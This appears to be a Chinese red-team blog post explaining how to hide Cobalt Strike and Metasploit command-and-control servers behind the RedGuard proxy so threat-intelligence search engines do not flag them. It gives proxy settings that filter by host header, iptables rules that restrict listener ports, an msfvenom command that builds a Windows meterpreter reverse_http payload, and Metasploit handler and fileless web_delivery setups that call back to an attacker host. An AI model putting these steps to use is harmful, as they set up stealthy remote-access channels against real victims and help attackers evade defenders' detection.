 ```yaml
---
title: c2隐藏-RedGuard
date: 2023-02-02 16:30:32
categories: 渗透测试
tags: 工具分享
---
```


### 简介

前几天发现自己的服务器被fofa和微步情报标记为了cobaltstrike服务器，由于以前使用的版本没有对相应的特征做修改，导致被空间搜索引擎标记，刚好看到风起在朋友圈发布了RedGuard，于是赶紧试试鲜。

RedGuard由风起大佬编写的一款c2前置流量控制工具，可以帮助红队更好的隐藏c2基础设施，且目前还在更新和完善之中，在写这篇文章之后又进行了2次更新，优化和增加了一些新功能。

<!--more-->

[github地址](http://github.com/wikiZ/RedGuard/blob/main/doc/README_CN.md)

### 使用

第一次运行会在用户目录生成**.RedGuard_CobaltStrike.ini**文件，编辑此文件对其进行配置，当然也支持参数进行热配置。

![](http://qn.laohuan.xin/Snipaste_2022-05-31_22-17-54.png)

重点关注proxy的3个配置

* Port_HTTPS
* port_HTTP
* HostTarget

如上图，当前配置的意思是将Port_http的80端口绑定到本机127.0.0.1的8080端口，当有请求访问服务器的80端口，RedGuard会对请求特征做判断，当请求不符合规则(及host头不是360.net，这个可以随意设置)，请求会被重定向到http://360.net,否则请求会被转发到cs的监听端口8080端口。请求会不会被重定向取决于DROP参数，如DORP参数设置为true将直接丢弃请求包。

同理,443端口被绑定到本机127.0.0.1的8443端口，当请求不符合规则时将请求重定向到http://360.net,当host头为360.com时将请求转发到cs的8443监听端口，主要取决于你cs的监听器是http还是http。

更多设置，如过滤上线ip、上线时间、上线省份请参考作者官方文档[RedGuard文档](http://github.com/wikiZ/RedGuard/blob/main/doc/README_CN.md)

当然，这种场景适合将反代和cs服务器建在同一台机器上，比较节省资源，配合iptables可防止网络空间搜索引擎将你的服务器标记。

### CS

启动RedGuard `sudo ./RedGuard_64`

cs新建监听，c2端口设置为RedGaurd的反代端口，bind设置为cs的监听端口，注意host header可以随意设置，但一定要和配置文件里的一致。

![](http://qn.laohuan.xin/Snipaste_2022-05-31_22-42-34.png)

再配置IPtables，只允许127.0.0.1访问本机的8443端口

```bash
iptables -I INPUT -p tcp --dport 8443 -j DROP #丢弃所有访问8443端口的包
iptables -I INPUT -p tcp -s 127.0.0.1 --dport 8443 -j ACCEPT #只允许127.0.0.1访问本机的8443端口
```

这样就可以正常上线了

还有一种就是拿一台单独的服务器做反代服务器，另一台服务器做真正的cs服务器，只需简单修改配置文件即可

![](http://qn.laohuan.xin/Snipaste_2022-05-31_22-51-28.png)

这里将192.168.1.8用作反代服务器，192.168.1.7作为真正的cs服务器，HosTtarget填写cs服务器的地址192.168.1.7

新建cs监听，填写相应端口。

![](http://qn.laohuan.xin/Snipaste_2022-05-31_22-56-17.png)

在cs服务器配置防火墙，只允许反向代理服务器来访问cs的监听端口

```bash
iptables -I INPUT -p tcp --dport 8443 -j DROP 
iptables -I INPUT -p tcp -s 192.168.1.8 --dport 8443 -j ACCEPT 
```

### MSF

生成载荷

`msfvenom -p windows/x64/meterpreter/reverse_http  LHOST=10.197.10.131 LPORT=80  HttpHostHeader=360.net -f exe -o test.exe`

建立监听和设置参数，这里反代端口为80端口，80端口收到请求且符合规则后将其转发到本地的8080端口

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_http
set LHOST 127.0.0.1
set LPORT 8080
 
set OverrideLHOST 10.197.10.131 
set overrideLPORT 80
set overriderequesthost true
set httphostheader 360.net 

run

```

配置防火墙

```bash
iptables -I INPUT -p tcp --dport 8080 -j DROP 
iptables -I INPUT -p tcp -s 127.0.0.1 --dport 8080 -j ACCEPT 
```



![](http://qn.laohuan.xin/Snipaste_2022-06-01_17-20-16.png)

在能执行命令的情况下，想方便点使用无文件落地的方式

```bash
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_http
set lhost 192.168.1.8
set lport 80 #端口设置为反向代理端口
set srvport 8082 #用于下载stage
set httphostheader 360.net
set OverrideLhOST 192.168.1.8
set overrideLpoRT 80
set overriderequesthost true
set DisablePayloadHandler true #关闭监听
run

use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_http
set lhost 127.0.0.1
set lport 8080
set httphostheader 360.net
set OverrideLhOST 192.168.1.8
set overrideLpoRT 80
set overriderequesthost true
run

```

同样配置防火墙

```bash
iptables -I INPUT -p tcp --dport 8080 -j DROP 
iptables -I INPUT -p tcp -s 127.0.0.1 --dport 8080 -j ACCEPT 
```



![](http://qn.laohuan.xin/Snipaste_2022-06-05_15-47-01.png)

